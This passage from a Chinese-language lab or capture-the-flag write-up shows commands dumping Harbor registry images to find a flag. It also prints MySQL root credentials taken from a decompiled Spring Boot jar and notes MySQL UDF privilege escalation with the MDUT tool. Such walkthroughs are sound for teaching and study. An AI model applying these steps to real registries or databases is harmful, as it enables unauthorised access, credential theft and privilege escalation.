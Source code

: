 Linux 环境下运行 harbor.py

```
python3 harbor.py http://172.22.14.46/
```

#### 公开镜像一：harbor/secr

```
python3 harbor.py http://172.22.14.46/ --dump harbor/secret --v2
```

![image-20240904215622415](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240904215622415.png?imageSlim)

随后分析镜像文件，找到 flag05：

![image-20240904215800072](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240904215800072.png?imageSlim)

#### 公开镜像二：project/projectadmin

```
python3 harbor.py http://172.22.14.46 --dump project/projectadmin --v2
```

![image-20240904223425546](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240904223425546.png?imageSlim)

分析镜像文件，发现运行了 `run.sh`，内容如下：

![image-20240904223439488](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240904223439488.png?imageSlim)

`ProjectAdmin-0.0.1-SNAPSHOT.jar`。反编译，在 SpringBoot 配置文件 `application.properties` 中找到数据库账号密码：

```
spring.datasource.url=jdbc:mysql://172.22.10.28:3306/projectadmin?characterEncoding=utf-8&useUnicode=true&serverTimezone=UTC
spring.datasource.username=root
spring.datasource.password=My3q1i4oZkJm3
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver
```

#### MySQL UDF 提权（flag06）

![image-20240905000140191](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240905000140191.png?imageSlim)

再写一个规则，连上mysql

MDUT直接梭

![image-20240905005729500](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240905005729500.png?imageSlim)

> 折腾了好一顿才用这个工具连上
>
> 工具自身的mysql驱动目录配置有问题

![image-20240905005919462](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240905005919462.png?imageSlim)

### 172.22.14.37- k8s

